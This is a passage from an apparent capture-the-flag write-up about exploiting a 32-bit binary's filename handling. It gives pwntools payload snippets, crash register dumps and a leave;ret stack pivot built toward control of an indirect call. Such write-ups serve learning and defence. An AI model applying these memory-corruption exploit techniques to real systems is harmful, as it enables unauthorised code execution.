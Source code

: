 Updating our script with this value at the offset of `paac` (`win_2.py` in the [Github](https://github.com/ctfhacker/ctf-writeups)).

```python
data = 'a' * cyclic_find('paac')
data += p32(0x804a0a0) # Global address for obj.name
data += 'b' * (1000 - len(data))
write_file(filename, data)
```

And the following crash.

```
[----------------------REGISTERS-----------------------]
...
*EDI  0x41415241 ('ARAA')
...
[-------------------------CODE-------------------------]
 => 0xf76a9d40 <fclose+64>     cmp    ebp, dword ptr [edi + 8]
    0xf76a9d43 <fclose+67>     je     0xf76a9d69          <0xf76a9d69; fclose+105>
```

So we see our `edi` points to part of the cyclic in the filename. This time, replacing the `ARAA` with the address of the filename doesn't lead anywhere. Instead, we try a few different addresses that don't result in the same crash. One address that works is somewhere in the writeable chunk: `0x804af00` (`win_3.py` in the [Github](https://github.com/ctfhacker/ctf-writeups)).

At this point, we get an interesting crash.

```
[----------------------REGISTERS-----------------------]
*EAX  0x41414141 ('AAAA')
 EBX  0xf7710000 <-- 0x1a9da8
*ECX  0x706d742f ('/tmp')
*EDX  0x100
*EDI  0x1000
*ESI  0x804a0a0 (name) <-- '/tmp/aaaabaaaca...'
*EBP  0x61616461 ('adaa')
*ESP  0xffc1a0f0 --> 0x804a0a0 (name) <-- '/tmp/aaaabaaaca...'
*EIP  0xf768da8d <-- call   dword ptr [eax + 0x3c]
 [-------------------------CODE-------------------------]
  => 0xf768da8d    call   dword ptr [eax + 0x3c]
```

We are crashing on a `call [eax+0x3c]` where we control `eax`. This means that we could set `eax` to any address minus `0x3c` (due to the calculation) and call any function we want. It is also useful to note, that we also control `ebp`. This is doubly interesting, because set `ebp` to an address we control and could use a `leave; ret` ROP gadget to pivot our stack to any position we wish. (`win_4.py` in the [Github](https://github.com/ctfhacker/ctf-writeups))

```python
leaveret = 0x80486f1

data = p32(leaveret)

data2 = 'c' * cyclic_find('aaca')
data2 += p32(0x04a0f000) # Use one of the next 0x08 bytes here for the address 0x0804a0f0 (some bytes into the filename)
data2 += '\x08' * (cyclic_find('ARAA', alphabet=string.ascii_uppercase) - 4 - len(data2))
data += data2

data += p32(0x804af00)      # 2) Some valid address to pass fclose
data += p32(0x804a0a5-0x3c) # 3) Address we will be calling at instruction call [eax + 0x3c]
data += cyclic(240-len(data), alphabet=string.ascii_uppercase)
filename = '/tmp/' + data
```
